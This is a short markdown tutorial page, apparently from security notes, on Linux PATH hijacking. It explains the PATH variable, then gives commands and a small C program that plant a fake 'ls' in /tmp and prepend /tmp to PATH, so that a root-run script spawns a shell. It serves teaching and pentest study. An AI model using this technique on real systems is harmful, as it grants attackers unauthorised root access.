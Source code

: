 # PATH.md
***
"PATH" is an environment variable found in Linux and Unix-like operating systems. It serves to define a list of directories where executable programs are located. When a user executes a command in the terminal, the system scans these directories within PATH to find the corresponding executable files. To display the current PATH configuration, you can use the following command.
```sh
ech $PATH
```

## Exploitation
An attacker could modify the PATH variable to point to a directory of their choosing. As an example, consider a root use running a script, "test.sh," which executes the "ls" command (the official ls binary typically found at /bin/ls). In this situation, an attacker has the capability to craft a file named "ls," which, upon execution, leads to the initiation of a shell. Consequently, when "test.sh" is executed, it will also result in the spawning of a shell.
```sh
# creae fake ls
cp /bin/bash /tmp/ls
chmod +x /tmp/ls

# rewrite the PATH variable
export PATH=/tmp:$PATH # this adds /tmp to the current path. Or export PATH=/tmp

# Now, upon running the script "test.sh," it will trigger the execution of the "ls" file created earlier, consequently leading to the spawning of a shell.

# To reset PATH
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```

### Notes
- The /tmp directory is positioned at the forefront of the PATH, making it the first directory to be checked when resolving binary conflicts. In situations where multiple directories contain binaries with identical names, the system will prioritize the execution of the one listed first in the PATH environment variable, which, in this context, is the /tmp directory.
- You can use C to spawn a shell
```sh
#include<stdio.h>
#include<stdlib.h>

int main()
{
  system("/bin/bash");
}

# Compile it
gcc shell.c -o /tmp/ls
```
